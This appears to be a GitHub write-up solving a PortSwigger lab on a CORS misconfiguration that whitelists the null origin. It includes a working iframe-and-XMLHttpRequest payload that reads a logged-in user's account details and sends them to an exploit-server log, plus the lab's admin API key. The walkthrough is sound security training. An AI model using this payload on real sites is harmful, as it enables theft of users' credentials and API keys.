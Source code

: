 ![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/0d179059-af2d-4675-87df-92d295fd7fa7)

### Solution

Login to the site using credentials

once logged in we can use api key for wiener

The GET request to /accountDetails contains Access-Control-Allow-Credentials in the response.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/b352ef80-6b33-454f-b6f9-801e22fe7535)

there is no Access-Control-Allow-Origin header in response because the Origin header is not specified in the request.

If we give Origin: hacked.com in request, we can see that in the response it does not contain any Access-Control-Allow-Origin: hacked.com header. Which means hacked.com is not in the whitelisted domains.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/12a74e83-ff59-4683-a62c-2c7900dab47a)

When origin:null is given we can see that it is shown in the response

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/fa3de50d-4844-4ea3-903d-a1fcf2635622)

```js
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```

This time we have the Access-Control-Allow-Origin: null header in the response. This means null is in the whitelisted domains.Some applications might whitelist the null origin to support local development of the application.

So by this we can bypass CORS & retreive the API key of administrator.Embedding script in iframe.\Scripts that originate from an iframe usually contains Origin: null.

So we need to embed our exploit script inside an iframe

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/ad4940ab-cfc8-483f-811b-54ac2010ff40)

api key is inside the access log menu

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/3aa0cee0-ce0b-4537-9493-74478abdd553)

api key `ENoZqIJ7VI1gNcZakr2dDrVN5bRNXns9`

submit the solution to solve the lab

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/7e7b4624-6522-4a19-8772-1bc5ec909fd0)
